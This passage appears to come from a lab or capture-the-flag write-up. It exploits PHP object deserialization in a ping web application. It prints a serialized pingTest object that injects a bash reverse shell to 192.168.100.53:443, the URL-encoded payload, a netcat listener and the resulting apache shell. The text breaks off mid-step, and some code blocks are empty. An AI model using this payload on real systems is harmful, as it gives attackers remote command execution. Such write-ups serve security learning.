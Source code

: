 as you can notice in the code if we manipulate the script by changing some parameteres 
```bash
   1   │ <?php
   2   │ 
   3   │ class pingTest {
   4   │     public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.100.53/443 0>&1'";
   5   │     public $isValid = True;
   6   │     public $output = "";
   7   │ }
   8   │ 
```

in order to send us a reverse shell and if we urlencode all of these using php 

```bash
❯ php whiteBox.php; echo
O%3A8%3A%22pingTest%22%3A3%3A%7Bs%3A9%3A%22ipAddress%22%3Bs%3A55%3A%22%3B+bash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.100.53%2F443+0%3E%261%27%22%3Bs%3A7%3A%22isValid%22%3Bb%3A1%3Bs%3A6%3A%22output%22%3Bs%3A0%3A%22%22%3B%7D
```

and if you intercept with burp the ping web application

and change the obj with this 

```bash
❯ php whiteBox.php; echo
O%3A8%3A%22pingTest%22%3A3%3A%7Bs%3A9%3A%22ipAddress%22%3Bs%3A55%3A%22%3B+bash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.100.53%2F443+0%3E%261%27%22%3Bs%3A7%3A%22isValid%22%3Bb%3A1%3Bs%3A6%3A%22output%22%3Bs%3A0%3A%22%22%3B%7D
```
and stay listing at port 443 with netcat 

```bash
nc -nlvp 
```


you can notice 

that you are in apache inside of the machine 


```bash
bash-4.4$ whoami
whoami
apache
bash-4.4

```

and if you create based on 

```bash

```

you can gain access

so stay  listing at 
